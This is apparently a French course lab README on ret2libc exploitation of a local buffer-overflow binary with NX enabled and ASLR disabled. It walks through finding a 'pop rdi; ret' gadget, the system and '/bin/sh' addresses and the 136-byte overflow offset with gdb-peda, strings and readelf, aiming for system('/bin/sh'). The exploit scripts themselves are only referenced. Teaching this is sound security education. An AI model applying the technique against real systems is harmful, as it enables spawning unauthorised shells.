

## Return 2 libc

* Le binaire est compilé avec le flag NX activé (moyen de protection par le noyau rendant la pile non exécutable).

* Le mécanisme de randomisation de l'espace d'adresse ASLR est désactivé

* Installation de l'outil ropper :  https://github.com/sashs/Ropper

## Comment retourner à libc ?
Ici, l'objectif est de détourner le flot d'exécution normal du processus : Il s'agit de le rediriger pour exéuter la fonction system de libc:

int system(const char *command). 

plus précisément, on voudrait exécuter l'instruction : system("/bin/sh")

## Gadget poprdi ?

On commence notre investigation par la recherche d'un gadget de type pop rdi (il faut d'abord faire un break,sur vuln par exemple, dans gdb, et ensuite lancer le programme):

sinon, vous pouvez cherchez ce gadget en fournissant les adresses de début et de fin de mappage de libc:

gdb-peda$ ropsearch "pop rdi ; ret" 0x00007ffff7dee000 0x00007ffff7faf000

ou

gdb-peda$ dumprop

ou

gdb-peda$ asmsearch "pop rdi ; ret"

## Chercher l'adresse de la chaîne "/bin/sh"

## Chercher l'adresse de la fonction system

gdb-peda$ p system

$1 = {int (const char *)} 0x7ffff7e36e50 <__libc_system>

gdb-peda$

## Chercher l'offset

gdb-peda$ pattern_create 400 entry.txt

Writing pattern of 400 chars to filename "entry.txt"

gdb-peda$ 

gdb-peda$ r < <(cat entry.txt)

Starting program: /home/insa/advanced/secu/cm/02-ret2libc/ret2libc < <(cat entry.txt)

adress of buf=0x7fffffffde10

Stopped reason: SIGSEGV

0x0000000000401178 in vuln () at ret2libc.c:10

10	}

gdb-peda$ x/1wx $rsp

0x7fffffffde98:	0x41514141

gdb-peda$ pattern offset 0x41514141

1095844161 found at offset: 136

l'offset vaut 136

La génération d'une erreur de segmentation (et d'un coredump (contenant l'état de la mémoire au moment du décès du processus,
sous GNU/Linux) est le syndrome que notre application est effectivement affectée par l'insertion d'un trop grand nombre de caractères en entrée.

## Lancez l'attaque

Mettez les différentes adresses trouvées dans les scripts pythons (les scripts exploitx.py où x est le numéro de l'exploit)

## Voici une alternative pour trouver les offsets:

Trouver l'offset d'un gadget poprdi (avec l'outil indépendant Ropper):

Ma méthode préférée pour trouver l'offset de /bin/sh (avec la commande strings):

❯ strings -a -t x /usr/lib/x86_64-linux-gnu/libc.so.6  | grep /bin/sh

 1d8678 /bin/sh

 Ma méthode préférée pour trouver l'adresse de la fonction system:

❯ readelf -s /usr/lib/x86_64-linux-gnu/libc.so.6 | grep system

1481: 0000000000050d70    45 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.2.5

[Notez l'offset 0000000000050d70 de la fonction system]

Comme vous l'avez compris, les décalages/offsets  que nous avons découverts ci-dessus seront ajoutés à l'adresse à laquelle la libc sera chargée. Étant donné que l'ASLR est désactivé, cette adresse sera la même à chaque exécution du programme vulnérable et peut être trouvée en examinant l'allocation mémoire du processus.
